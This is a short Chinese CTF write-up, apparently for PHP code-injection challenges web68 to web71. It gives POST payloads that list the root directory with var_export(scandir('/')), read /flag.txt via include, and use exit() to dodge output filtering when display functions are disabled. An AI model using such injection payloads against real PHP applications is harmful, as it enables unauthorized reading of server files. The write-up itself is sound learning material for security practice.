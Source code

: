 # web68

![image-20220318204235651](https://img-blog.csdnimg.cn/img_convert/e3f774709ae8a2243dff4c068873e64e.png)

> show_source()和highlight_file()被禁用
> POST：c=include('/flag.txt');
>
> 

![image-20220318204300791](https://img-blog.csdnimg.cn/img_convert/70ef3e3fda43e91f7f2275952faf4c3d.png)

# web69

![image-20220318204417825](https://img-blog.csdnimg.cn/img_convert/6f048ca90e09254b78c34c7a7741759b.png)

查看根目录下的文件：
但是print_r()、var_dump()被禁用

用下面的代替

> POST：c=var_export(scandir("/"));
> POST：c=include('/flag.txt');

![image-20220318204444663](https://img-blog.csdnimg.cn/img_convert/e663c6b507e0a343544bcb2dd802e7e4.png)

![image-20220318204515211](https://img-blog.csdnimg.cn/img_convert/a996766710b49bfae606eb2b1ba5acbe.png)

# web70

![image-20220318204627454](https://img-blog.csdnimg.cn/img_convert/acb483b1f3f37291c965033191501557.png)

> 尝试使用c=include('index.php');但是不行，盲猜应该还是在/flag.txt里面

所以c=include('/flag.txt');

![image-20220318205146853](https://img-blog.csdnimg.cn/img_convert/a9dfc25fbb0a5ba364f3a67093d9df47.png)

# web71

![image-20220318205409118](https://img-blog.csdnimg.cn/img_convert/6015524a3fe88b2c954082daf3553b8c.png)

用include函数不行了

![image-20220318205432162](https://img-blog.csdnimg.cn/img_convert/fa2ae470957587e4a9611309e6cb7194.png)

可以在后面加个exit函数，让匹配到缓冲区不执行就退出![image-20220318205601796](https://img-blog.csdnimg.cn/img_convert/20f0caf391d64ca60f4f3103c1cd1fe8.png)

# web72
